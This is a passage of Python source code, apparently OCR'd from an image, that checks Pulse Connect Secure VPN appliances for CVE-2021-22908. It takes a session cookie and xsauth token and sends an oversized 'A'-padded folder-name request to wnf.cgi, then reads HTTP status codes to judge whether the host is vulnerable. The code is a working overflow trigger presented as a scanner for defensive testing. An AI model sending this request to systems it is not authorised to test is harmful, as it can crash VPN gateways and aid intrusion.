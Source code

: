                         dsid = cookie.value
        elif 'failed' in res.headers['location']:
            print('Login failed!')
        else:
            # Login accepted
            for cookie in res.cookies:
                if cookie.name == 'DSID':
                    dsid = cookie.value

        return dsid


    def get_xsauth(host, dsid):
        xsauth = None
        url = 'https://%s/dana/home/index.cgi' % host
        cookies = {'DSID':dsid}
        res = requests.get(url, verify=False, cookies=cookies, timeout=10)
        if 'xsauth' in str(res.content):
            parser = formvaluefinder('xsauth')
            parser.feed(str(res.content))
            xsauth = parser.data
        else:
            print('Cannot find xsauth string for provided DSID: %s' % dsid)
        return xsauth

    def trigger_vul(host, dsid, xsauth):
        url = 'https://%s/dana/fb/smb/wnf.cgi' % host
        values = {
            't': 's',
            'v': '%s,,' % ('A' * 1800),
            'dir': 'tmp',
            'si': None,
            'ri': None,
            'pi': None,
            'confirm': 'yes',
            'folder': 'tmp',
            'acttype': 'create',
            'xsauth': xsauth,
            'create': 'Create Folder',
            }
        cookies = {'DSID': dsid}
        try:
            res = requests.post(url, data=values, verify=False, allow_redirects=False, cookies=cookies, timeout=60)
            status = res.status_code
            if 'DSIDFormDataStr' in str(res.content):
                # We got page asking to confirm our action
                print('xsauth value was not accepted')
            else:
                if status == 200 and 'Error FB-8' in str(res.content):
                    print('HTTP %s.  Windows File Access Policies prevents exploitation.' % status)
                elif status == 200:
                    print('HTTP %s.  Not vulnerable.' % status)
                elif status == 403:
                    print('HTTP %s.  XML workaround applied.' % status)
                elif status == 500:
                    print('HTTP %s.  %s is vulnerable to CVE-2021-22908!' % (status, host))
                elif status == 302:
                    print('HTTP %s.  Are you sure your DSID is valid?' % host)
                else:
                    print('HTTP %s.  Not sure how to interpret this result.' % status)
        except requests.exceptions.ReadTimeout:
